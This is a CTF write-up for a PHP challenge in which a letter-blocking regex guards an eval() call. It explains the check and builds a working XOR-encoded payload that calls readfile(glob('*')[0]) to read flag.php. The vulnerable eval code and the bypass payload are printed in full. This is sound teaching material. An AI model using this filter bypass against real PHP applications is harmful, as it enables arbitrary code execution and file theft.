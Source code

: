 # Web Warm-up

![Challenge Description](WebWarmup.png)

We are given a link to <http://69.90.132.196:5003/?view-source>

It leads us to a webpage with this content

```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
```

## Understanding the problem

The given objective is to read the **flag.php** file. From the source code, it is understandable that the webpage will execute the string provided through the 'warmup' key if it passes through the preg_match and the strlen check.

So we can safely say that we need to read the flag.php file by bypassing the preg_match and strlen check and using the php eval function.

But how do we do this?

First we need to understand what the preg_match check is intending to do.

Upon pasting the provided regex in a regex tester(<https://regexr.com/>) we get to know that the provided regular expression checks for any alphabets present in the provided string(that would be the value of the $_GET['warmup'] parameter in this case).

Lets evaluate the preg_match expression in a php interpreter.

```bash
bash => php -a
Interactive mode enabled

php > echo preg_match('/[A-Za-z]/is', "abcd");
1
php > echo preg_match('/[A-Za-z]/is', "1234");
0
```

So if we want our input to be executed, our input must not contain any alphabets and should be less that 60 characters in length.

## Developing the exploit

[This](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution) link contains some information on preg_match check bypassing. The above reference explains a few things about PHP.

1. XORing strings in PHP

2. '_' variables

3. Calling functions through strings

By understanding these concepts, we can understand that we can construct strings through XORing other strings and call PHP functions through those strings.

The desired function call we would like to make is

```php
eval("readfile('flag.php');")
```

But the above won't work because we cannot construct the '.' character without using any alphabets.

So we have to go for a different approach.

```php
eval("readfile(glob('*')[0])") // Assuming that the flag.php is the first file in the directory.
```

Since the function names 'readfile' and 'glob' are the ones containing alphabets, lets construct them by XORing 2 strings which do not contain alphabets.

```php
// ^ stands for XOR
$_="@:>;963:"^"2_______"; // readfile
$__="____"^"830="; // glob
$_($__('*')[0]); // readfile(glob('*'))
```

The final exploit is

```php
$_="@:>;963:"^"2_______";$__="____"^"830=";$_($__('*')[0]);
```

By urlencoding this payload and adding it in the request to the website gives us the flag.

![Flag](flag.png)

## References

1. <https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution>
